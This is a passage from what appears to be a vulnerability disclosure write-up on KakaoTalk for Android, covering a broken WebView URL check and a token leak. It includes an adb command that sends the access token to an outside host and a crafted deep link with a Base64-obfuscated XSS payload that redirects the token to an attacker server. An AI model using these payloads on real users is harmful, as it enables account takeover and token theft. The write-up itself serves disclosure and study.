 ```java
    this.f192507q.setDownloadListener(new C34313v1(this, 0));
    
    if (str2 != null) {
        setTitle(str2);
    }
    
    if (str == null) {
        str = C24983v.m36731j(C47684e.f174774b, "android/adid/manage.html");
    }
    
    WebView webView = this.f192507q;
    HashMap m16559U5 = m16559U5();

    // URL host validation is broken. In fact, any URL can be loaded.
    if (C55281p.m61314a0(C47684e.f174709D0, Uri.parse(str).getHost(), true)) {
        m16559U5.putAll(companion.getInstance().getBreweryHeader());
    }

    C52084x c52084x = C52084x.f192756a;

    // Finally, the URL is loaded.
    webView.loadUrl(str, m16559U5);
}
```

This included `javascript://` and `data://` schemes which allow to run JavaScript. Also, it supported `content://` URLs, so a URL such as `content://com.kakao.talk.FileProvider/onepass/PersistedInstallation.W0RFRkFVTFRd+MTo1NTIzNjczMDMxMzc6YW5kcm9pZDpiNjUwZmVmOGI2MDY1MzVm.json` opens KakaoTalk's Firebase Installation configuration in the `MyProfileSettingsActivity` WebView.

Additionally, it leaked an access token in the `Authorization` HTTP header. For example, a command such as `adb shell am start "intent:#Intent\;component=com.kakao.talk/.activity.setting.MyProfileSettingsActivity\;S.EXTRA_URL=https://foo.bar\;end"` would send the token to `https://foo.bar`.

What could we do with this token? Maybe take over a victim's KakaoTalk account?

## Deep Link to Kakao Mail Account Takeover

As explained in the previous section the `MyProfileSettingsActivity` is not exported, but we could start it via `CommerceBuyActivity` with the trick explained above. By crafting a malicious deep link, we could send the access token to an attacker-controlled server:

```
kakaotalk://buy/auth/0/cleanFrontRedirect?returnUrl=https://m.shoppinghow.kakao.com/m/product/Q24620753380/q:"><img src=x onerror="document.location=atob('aHR0cDovLzE5Mi4xNjguMTc4LjIwOjU1NTUvZm9vLmh0bWw=');">
```

Let's break it down:

- `kakaotalk://buy` fires up `CommerceBuyActivity`
- `/auth/0/cleanFrontRedirect?returnUrl=` "compiles" to `https://buy.kakao.com/auth/0/cleanFrontRedirect?returnUrl=` and redirects to any `kakao.com` domain
- `https://m.shoppinghow.kakao.com/m/product/Q24620753380/q:` had the XSS issue
- `"><img src=x onerror="document.location=atob('aHR0cDovLzE5Mi4xNjguMTc4LjIwOjU1NTUvZm9vLmh0bWw=');">` is the XSS payload. We had to Base64 encode the "attacker URL" to bypass some sanitization checks.
